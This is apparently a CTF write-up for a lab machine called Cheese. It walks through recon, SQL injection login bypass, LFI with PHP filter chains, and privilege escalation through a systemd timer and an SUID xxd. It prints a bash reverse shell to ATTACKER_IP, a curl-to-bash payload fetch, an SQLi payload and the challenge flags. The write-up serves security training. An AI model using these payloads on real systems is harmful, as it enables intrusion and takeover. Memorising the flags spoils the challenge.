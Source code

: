 This walkthrough details the step-by-step process of solving the CHEESE CTF, covering reconnaissance, exploitation, privilege escalation, and ultimately gaining root access. The target machine had several vulnerabilities, including SQL injection, Local File Inclusion (LFI), and misconfigured systemd timers.


### **1. Initial Reconnaissance**

**Port Scanning**

- Used Nmap to scan the first 1000 ports (nmap -p 1-1000 <TARGET_IP>).
![1](./images/1.png)

- Found that FTP (21), SSH (22), and HTTP (80) were open.
- Ran a detailed scan on these ports (nmap -sV -A -p 21,22,80 <TARGET_IP>) to identify services and versions.
![1](./images/2.png)

**FTP Enumeration**

- Attempted to connect via FTP (ftp <TARGET_IP>), but encountered an error.
 ![3](https://github.com/user-attachments/assets/ff96c1ee-cb1a-4cac-b203-b8d301db921f)
Possible issues:
- Anonymous login disabled.
- Credentials required (not yet obtained).

**Web Enumeration (Port 80)**
- Visited http://<TARGET_IP> and inspected the page.
![4](https://github.com/user-attachments/assets/0ff111fc-e85f-47b3-b0f2-688dd9545174)

- Checked the source code for hidden comments or secrets—nothing found.
![5](https://github.com/user-attachments/assets/866ee626-b598-4b1b-b901-328905eaf49b)

- Discovered a login page (/login.php). 
![6](https://github.com/user-attachments/assets/c3569166-9430-453d-aba2-e175b484654b)



### **2. Exploiting SQL Injection**
**SQLmap for Automated Testing**

- Ran SQLmap to test for SQLi:
`sqlmap -u "http://<TARGET_IP>/login.php" --forms --batch`
![7](https://github.com/user-attachments/assets/2116f5ba-01dd-470d-929c-d4f93d7f363a)

- Found a SQL injection vulnerability in the login form and the redirection.
![8](https://github.com/user-attachments/assets/afe330b3-0a7e-45f7-ba85-4ec938bb7e8d)

- Extracted database information, including a username (comte) and its password hash.
![9](https://github.com/user-attachments/assets/c8a7e7d1-8100-4bff-b44e-ca309d333714)


**Manual SQL Injection Bypass**

- Used a classic SQLi payload to bypass authentication:
```
Username: comte ' AND 1='1 --
Password: anything
```
![10](https://github.com/user-attachments/assets/f53cabec-be72-481b-8f71-5dccca1cff78)

- Successfully logged in and was redirected to a dashboard (/dashboard.php).
![11](https://github.com/user-attachments/assets/53e055b8-aa84-4a85-af9e-4e56e1355783)



### **3. Exploiting Local File Inclusion (LFI)**
**Testing LFI in the file Parameter**

- Discovered an LFI vulnerability in the file parameter (e.g., ?file=/etc/passwd).
- Retrieved /etc/passwd, confirming user comte exists.
![12](https://github.com/user-attachments/assets/f239a641-8683-4527-8747-c9d05212e21c)


**Reading PHP Files via Base64 Encoding**
- Used PHP filters to read source code:
`?file=php://filter/convert.base64-encode/resource=secret-script.php`
![13](https://github.com/user-attachments/assets/bc848ef3-430f-4120-864f-1f3c62a63ab6)


- Decoded the Base64 output to analyze secret-script.php.
![14](https://github.com/user-attachments/assets/0c5d129c-863c-48b5-afaf-706775ddfd45)


**Log Poisoning → RCE**

- Since the server used PHP, leveraged PHP wrappers for RCE:
Wrote a malicious payload(revshell) with this bash reverse shell.
`bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` 
- I used the php-filter-chain script from the github to generate the filters to upload 
[🔗 Github link for the script ](https://github.com/synacktiv/php_filter_chain_generator.git)
using command

`python3 php_filter_chain_generator.py --chain '<?= 'curl -s -L <Attacker_IP>/<payload name>|bash' ?>'`
![15](https://github.com/user-attachments/assets/1d7ffe22-ade6-415e-b3a3-0f0dff277c24)

- Hosted it on a local server and triggered it via LFI.
`python3 -m http.server 80`
- Set up a listener  and received a shell.
`nc -lvnp <port>`
![16](https://github.com/user-attachments/assets/66814261-96fa-4b99-8ede-f08af2717c1f)


**User Flag**
- Found the user.txt in the home/comte directory but it had no permissions for us. as we are logged in as `www-data`
![17](https://github.com/user-attachments/assets/ac1b57c6-30e8-44d2-86e7-2b06a5b84d18)

- Found that /home/comte/.ssh/ had write permissions.
![18](https://github.com/user-attachments/assets/f3b421dd-c113-4296-91f3-ce1d969baaf6)

- Generated an SSH key pair (ssh-keygen).
![19](https://github.com/user-attachments/assets/f20e2be6-e418-47f6-8bba-ae55d2e25b91)

- Copied the public key (.pub) into authorized_keys.
![20](https://github.com/user-attachments/assets/d1607631-50de-4447-989a-74605bc9c272)

- Logged in via SSH and obtained the user flag.
`ssh comte@<TARGET_IP>`
![21](https://github.com/user-attachments/assets/09b87653-158c-417d-9ec0-81dd514f869e)
`THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`


### **4. Privilege Escalation (User → Root)**
**Abusing Systemd Timer Privileges**
- Checked sudo privileges (sudo -l), found systemctl access.
![22](https://github.com/user-attachments/assets/e5de6f88-6066-4009-a878-a27a1442a99e)
- Discovered a misconfigured systemd timer (exploit.timer). and Modified the timer to execute immediately:
```
OnBootSec=0  
OnUnitActiveSec=0  
```
- ![23](https://github.com/user-attachments/assets/a6392e95-c03c-400d-9cff-797bcc587fec)


- Found the services it will triggered

![24](https://github.com/user-attachments/assets/faa4280e-4aee-467c-b5cd-1e85a7e4244a)

- I looked in the .services and then I started the timer.
`sudo systemctl start exploit.timer`
![25](https://github.com/user-attachments/assets/d97e5090-3ad1-42c6-b4a7-58be453bdefa)


**Reading Root Flag via xxd**
- Found that xxd (a hexdump utility) saved as a copy had SUID permissions.
![26](https://github.com/user-attachments/assets/b67576f6-6dad-4efc-8254-9fed5e1c0ca3)

- Used xxd to read /root/root.txt:
`xxd "/root/root.txt" | xxd -r`
![27](https://github.com/user-attachments/assets/5760dad8-4b5c-4364-a53a-be793792d92c)
`THM{dca75486094810807faf4b7b0a929b11e5e0167c}`
